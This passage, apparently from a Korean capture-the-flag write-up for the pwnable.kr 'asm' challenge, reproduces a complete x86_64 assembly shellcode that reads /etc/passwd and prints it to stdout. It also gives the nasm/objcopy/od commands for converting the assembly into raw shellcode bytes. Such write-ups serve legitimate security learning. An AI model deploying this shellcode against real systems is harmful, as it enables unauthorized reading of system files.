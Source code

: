 ~~~
BITS 64
; Author Mr.Un1k0d3r - RingZer0 Team
; Read /etc/passwd Linux x86_64 Shellcode
; Shellcode size 82 bytes
global _start

section .text

_start:
jmp _push_filename
  
_readfile:
; syscall open file
pop rdi ; pop path value
; NULL byte fix
xor byte [rdi + 11], 0x41
  
xor rax, rax
add al, 2
xor rsi, rsi ; set O_RDONLY flag
syscall
  
; syscall read file
sub sp, 0xfff
lea rsi, [rsp]
mov rdi, rax
xor rdx, rdx
mov dx, 0xfff; size to read
xor rax, rax
syscall
  
; syscall write to stdout
xor rdi, rdi
add dil, 1 ; set stdout fd = 1
mov rdx, rax
xor rax, rax
add al, 1
syscall
  
; syscall exit
xor rax, rax
add al, 60
syscall
  
_push_filename:
call _readfile
path: db "/etc/passwdA"
~~~

금방 풀었구만, 하고 일단 시험용으로 path를 /home/asm/this_is... 로 바꾸고 돌려봤다.
참고로 저러한 asm 코드를 shellcode로 변환하려면 다음과 같은 과정을 거치면 된다
~~~
nasm -f elf64 shellcode.asm     # shellcode.o를 생성
objcopy -O binary -j .text shellcode.o shellcode_justbin  # shellcode.o에서 .text 부분만 떼어내기
od -An -t x1 shellcode_justbin  # hex form으로 출력
~~~


[pwnable.kr]: https://pwnable.kr
[stack_overflow_chroot]: https://unix.stackexchange.com/questions/105/chroot-jail-what-is-it-and-how-do-i-use-it
[online_assembler_link]: https://defuse.ca/online-x86-assembler.htm